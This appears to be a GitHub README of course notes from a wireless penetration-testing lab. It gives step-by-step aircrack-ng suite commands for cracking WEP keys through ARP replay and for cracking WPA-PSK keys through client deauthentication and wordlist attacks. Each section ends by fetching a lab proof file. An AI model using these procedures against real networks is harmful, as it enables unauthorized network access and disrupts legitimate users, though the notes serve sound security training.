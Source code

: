 # WiFi_Hacking_Memo
Quick notes taken from the course around WiFi hacking
## WEP
1.	Place the wireless interface in monitor mode using the Airmon-ng tool
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng tool
```
sudo airodump-ng wlan0mon --wps
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘WEP’
```
sudo airodump-ng -c 11 -b XX:XX:XX:XX:XX:XX -w WEP wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and sent ARP replay packets to the said station using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng
```
sudo aircrack-ng WEP01.cap
```
7.	Once the key is cracked by Aircrack-ng, use iwconfig to connect the compromised wireless network
```
sudo iwconfig wlan0 essid <SSID_name> key <KEY>
```
8.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
9.	Get the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
## WPA-PSK (Personal)
1.	Place the wireless interface in monitor mode using Airmon-ng
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng
```
sudo airodump-ng wlan0mon
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘PSK’
```
sudo airodump-ng --bssid XX:XX:XX:XX:XX:XX --channel 8 --write PSK wlan0mon
```
4.	When the command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and send deauth packets (5) to the said station(s) using Aireplay-ng
```
aireplay-ng -0 5 -a XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully, from the deauthenticated client which reconnected. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng, with a wordlist specific to WPA attacks
```
sudo aircrack-ng PSK-01.cap -w /usr/share/wordlists/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```
7.	When the key is cracked by Aircrack-ng, use wpa_passphrase to create a configuration file to connect the wireless network
```
wpa_passphrase <SSID_name> <KEY> > wpa.conf
```
8.	Connect to the WiFi network using wpa_supplicant with the configuration generated in step 7
```
wpa_supplicant -B -i wlan0 -c ./wpa.conf
```
9.	Refresh the DHCP client configuration and obtain an IP from the AP using dhclient
```
sudo dhclient wlan0
```
10.	Obtain the content of proof.txt
```
curl http://192.168.1.1/proof.txt
```
